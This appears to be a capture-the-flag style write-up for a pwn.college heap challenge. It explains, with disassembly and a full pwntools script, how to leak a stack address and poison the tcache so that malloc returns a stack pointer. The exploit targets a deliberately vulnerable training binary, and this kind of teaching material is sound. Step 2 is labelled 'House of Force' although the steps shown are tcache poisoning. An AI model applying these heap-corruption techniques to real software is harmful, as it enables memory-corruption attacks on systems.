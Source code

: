 ```yaml
---
layout: post
title: (Dynamic Allocator Misuse) level 12
categories: pwn.college Dynamic-Allocator-Misuse
date: 2025-10-08 08:00:22 +0300
tags: pwn.college PIE ASLR heap house-of-force tecache metadata house-of-spirit
---
```

## Information
- category: pwn


## Description 
> Leverage TCACHE exploits to cause malloc() to return a stack pointer.

## Write-up

**Goal:** leak a stack address, pivot `malloc` to return a pointer into stack memory.

---

### Step 1 — Leak stack address

From reverse engineering, we see this snippet in the binary:
```c
0x00005ef6bebb299e <+1304>: mov edi,0x43
0x00005ef6bebb29a3 <+1309>: call malloc@plt
0x00005ef6bebb29a8 <+1314>: mov QWORD PTR [rbp-0x198],rax
0x00005ef6bebb29af <+1321>: lea rax,[rbp-0x90]
0x00005ef6bebb29b6 <+1328>: add rax,0x40
0x00005ef6bebb29ba <+1332>: cmp QWORD PTR [rbp-0x198],rax
```

This shows malloc returning a pointer close to `rbp-0x90`.  
We can abuse this to leak a stack address:

1. `malloc(0x43)` → index 0.  
2. `free(0)`.  
3. Use `scanf` into chunk 0 to overwrite its header so that `malloc` later returns a pointer inside the stack frame.

Reverse engineering also shows:

```c
0x00005ef6bebb2958 <+1234>: lea rax,[rbp-0x90]
0x00005ef6bebb295f <+1241>: mov rsi,rax
0x00005ef6bebb2962 <+1244>: lea rdi,[rip+0x814] ; scanf format
```

So we can use `scanf` to write directly to `rbp-0x90`.

---

### Step 2 — House of Force to pivot malloc to stack

Technique:
- Padding of `0x30`
- Fake metadata (`prev_size`, `size`) such that the next malloc size will cause allocation into `rbp-0x90 + 0x40`.

Example sequence:

1. `malloc(0x43)`
2. `free(0)`
3. `scanf(0, p64(stackLeak))` → overwrite header to point to `rbp-0x90 + 0x40`
4. `malloc(0, 0x43)` → returns pointer to stack

---




## Exploit
```python
from pwn import *

elf = context.binary = ELF("/challenge/babyheap_level12.1")
context.log_level = "debug"
global p
p = elf.process()

def malloc_stack_win():
    p.sendline(b"stack_malloc_win")

def stack_free():
    p.sendline(b"stack_free")

def stack_scanf(data):
    p.sendline(b"stack_scanf")
    p.sendline(data)

def malloc(idx,size):
    p.sendline(b"malloc")
    p.sendline(idx)
    p.sendline(size)

def free(idx):
    p.sendline(b"free")
    p.sendline(idx)

def scanf(idx,data):
    p.sendline(b"scanf")
    p.sendline(idx)
    p.sendline(data)

def puts(idx):
    p.sendline(b"puts")
    p.sendline(idx)

def quit():
    p.sendline(b"quit")

def exploit():
    malloc(b"0",b"32")

    payload = b"\x42"*0x30 + p64(0) + p64(0x30)

    stack_scanf(payload)
    stack_free()

    free(b"0")

    puts(b"0")

    p.recvuntil(b"Data: ")
    stack = u64(p.recvline().strip().ljust(8,b"\x00"))
    log.success(f"stack: {hex(stack)}")
    
    malloc(b"0",b"67")
    malloc(b"1",b"67")

    free(b"1")
    free(b"0")

    scanf(b"0",p64(stack))

    malloc(b"0",b"67")

    malloc_stack_win()
    quit()

    p.interactive()
    
def main():
    exploit()

if __name__ == "__main__":
    main()
```